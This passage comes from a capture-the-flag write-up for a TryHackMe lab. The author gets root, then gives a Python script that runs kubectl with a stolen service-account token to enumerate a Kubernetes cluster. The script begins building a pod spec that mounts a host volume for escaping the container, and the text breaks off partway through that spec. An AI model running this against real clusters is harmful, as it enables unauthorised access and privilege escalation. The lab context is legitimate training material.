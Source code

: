 ```
       valid_lft forever preferred_lft forever
```

And I'm root! :D

> Note: I also made a [simple python script](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/PalsForLife/enumk8s.py) to automate this exploit process. :D

```py
#!/usr/bin/env python3

import argparse
import os
from colorama import Fore, init
import time

init(autoreset=True)

parser = argparse.ArgumentParser(description="This is an semiautomated python script that enumerating kubernetes cluster in 'PalsForLife' room in TryHackMe.")
parser.add_argument("-t", "--token", help="Service account token")
parser.add_argument("-u", "--url", help="The target machine's URL. E.g. https://10.10.44.205")
parser.add_argument("-p", "--port", help="The port of the URL")
args = parser.parse_args()

def get_auth():
    command = f"kubectl --server {args.url}:{args.port} --token {args.token} --insecure-skip-tls-verify auth can-i --list"
    os.system(command)

def get_res():
    command = f"kubectl --server {args.url}:{args.port} --token {args.token} --insecure-skip-tls-verify api-resources --namespaced=true "
    os.system(command)

def get_name(resource):
    command = f"kubectl --server {args.url}:{args.port} --token {args.token} --insecure-skip-tls-verify get {resource} --all-namespaces"
    os.system(command)

def ext_name(resource, name, namespace):
    command = f"kubectl --server {args.url}:{args.port} --token {args.token} --insecure-skip-tls-verify get {resource} {name} -n {namespace} -o yaml"
    os.system(command)

def createpod():
    print(Fore.CYAN + "Creating pod.yaml...")
    os.system("""echo 'apiVersion: v1
kind: Pod
metadata:
  name: pod
  labels:
    app: pod
spec:
  containers:
  - name: pod
    image: gitea/gitea:1.5.1
    imagePullPolicy: IfNotPresent
    volumeMounts:
    - name: hostvolume
      mountPath: /pod
    ports:
    - containerPort: 80
    securityContext:
```
